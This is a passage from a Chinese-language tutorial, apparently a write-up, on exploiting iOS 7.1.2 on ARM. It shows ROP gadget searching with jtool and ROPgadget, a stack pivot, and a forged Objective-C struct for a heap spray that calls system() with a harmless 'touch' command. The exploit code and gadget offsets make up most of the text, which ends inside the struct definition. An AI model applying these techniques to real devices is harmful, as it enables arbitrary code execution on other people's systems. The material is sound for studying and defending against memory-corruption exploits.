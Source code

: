`jtool -extract CoreFoundation ./dyld_shared_cache_armv7`

随后就可以用ROPgadget这个工具来搜索gadget了。如果是arm32位的话，记得加上thumb模式，不然默认是按照arm模式搜索的，gadget会少很多：

`ROPgadget --binary ./dyld_shared_cache_armv7.CoreFoundation --rawArch=arm --rawMode=thumb`

接下来我们需要找到一个用来做stack pivot的gadget，因为我们刚开始只控制了有限的几个寄存器，并且栈指针指向的地址也不是我们可以控制的，如果我们想控制更多的寄存器并且持续控制pc的话，就需要使用stack pivot gadget将栈指针指向一段我们可以控制的内存地址，然后利用pop指令来控制更多的寄存器以及PC。另一点要注意的是，如果我们想使用thumb指令，就需要给跳转地址1，因为arm CPU是通过最低位来判断是thumb指令还是arm指令的。我们在iphone4s 7.1.2上找到的stack pivot gadgets如下：

```
/*
__text:2D3B7F78    MOV      SP, R4
__text:2D3B7F7A    POP.W    {R8,R10}
__text:2D3B7F7E    POP      {R4-R7,PC}
*/

hs->stack_pivot= CoreFoundation_base + 0x4f78 + 1;
NSLog(@"hs->stack_pivot  = 0x%08x", (uint32_t)(CoreFoundation_base + 0x4f78));

```

因为进行stack pivot需要控制r4寄存器，但最开始我们只能控制r0，因此我们先找一个gadget把r0的值赋给r4，然后再调用stack pivot gadget：

```
/*
    0x2dffc0ee: 0x4604    mov    r4, r0
    0x2dffc0f0: 0x6da1    ldr    r1, [r4, #0x58]
    0x2dffc0f2: 0xb129    cbz    r1, 0x2dffc100    ; <+28>
    0x2dffc0f4: 0x6ce0    ldr    r0, [r4, #0x4c]
    0x2dffc0f6: 0x4788    blx    r1
*/
hs->fake_cache_bucket.cached_function = CoreFoundation_base + 0x0009e0ee + 1; //fake_struct.stack_pivot_ptr
NSLog(@"hs->fake_cache_bucket.cached_function  = 0x%08x", (uint32_t)(CoreFoundation_base+0x0009e0ee));

```

经过stack pivot后，我们控制了栈和其他的寄存器，随后我们就可以调用想要执行的函数了，比如说用system指令执行”`touch /tmp/iceandfire`”。当然我们也需要找到相应的gadget，并且在栈上对应的正确地址上放入相应寄存器的值：

```
// 0x00000000000d3842 : mov r0, r4 ; mov r1, r5 ; blx r6

strcpy(hs->command, "touch /tmp/ iceandfire");
hs->r4=(uint32_t)&hs->command;
hs->r6=(void *)dlsym(RTLD_DEFAULT, "system");
hs->pc = CoreFoundation_base+0xd3842+1;
NSLog(@"hs->pc = 0x%08x", (uint32_t)(CoreFoundation_base+0xd3842));

```

最终我们伪造的Objective-C的结构体构造如下：

```
struct heap_spray {
    void* fake_objc_class_ptr;
    uint32_t r10;
    uint32_t r4;
    uint32_t r5;
    uint32_t r6;
    uint32_t r7;
    uint32_t pc;
    uint8_t pad1[0x3c];
    uint32_t stack_pivot;
    struct fake_objc_class_t {
        char pad[0x8];
        void* cache_buckets_ptr;
```
